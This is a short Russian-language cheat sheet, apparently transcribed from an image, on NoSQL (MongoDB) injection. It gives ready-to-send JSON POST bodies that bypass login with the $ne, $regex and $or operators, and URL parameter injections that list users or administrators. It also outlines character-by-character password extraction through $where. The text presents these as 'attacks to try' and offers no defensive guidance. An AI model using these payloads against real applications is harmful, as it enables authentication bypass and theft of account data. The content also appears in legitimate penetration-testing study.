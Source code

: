 Извлечение данных

Использование $where и JavaScript-функций (match(), sleep()) для поэтапного извлечения паролей или других полей.

Методика: проверка символов по одному, например this.password[0] == 'a'.

Если у вас есть запрос вроде `db.users.find({username: input})`, попробуйте отправить `{"username": {"$ne": null}}`. 

Атаки, которые нужно попробовать:

1.	Обход аутентификации с помощью $ne
Вместо пароля передайте оператор запроса.
Тело POST-запроса:
````json
{
  "username": "admin",
  "password": {"$ne": ""}
}
````
Что это делает? Запрос к БД превратится в: `findOne({ username: "admin", password: { $ne: "" } })`. Это означает: "найди пользователя с логином admin и паролем, который НЕ РАВЕН пустой строке". Если пользователь admin существует, этот запрос почти наверняка вернет его запись, и вы войдете в систему без пароля.
2.	Обход аутентификации с помощью $regex (или логического OR)
Тело POST-запроса:
````json
{
  "username": {"$regex": ".*"},
  "password": {"$regex": ".*"}
}
````
Что это делает? Запрос найдет первого пользователя, у которого есть любое значение в username и любое значение в password.
3.	Использование логического OR ($or)
Тело POST-запроса:
````json
{
  "$or": [
    {"username": "admin"},
    {"username": "user"}
  ],
  "password": {"$ne": ""}
}
````
Что это делает? Найдет пользователя с логином admin ИЛИ user, у которого пароль не пустой.
4.	Атаки через URL-параметры (GET-запросы)
Если у вас есть поиск, например: `/api/users?search=John` 

Попробуйте: `/api/users?search[$regex]=a.*` - это вернет всех пользователей, у которых в имени есть буква 'a'.

Попробуйте: `/api/users?role[$ne]=user` - это может вернуть всех пользователей, у которых роль не user (например, администраторов).
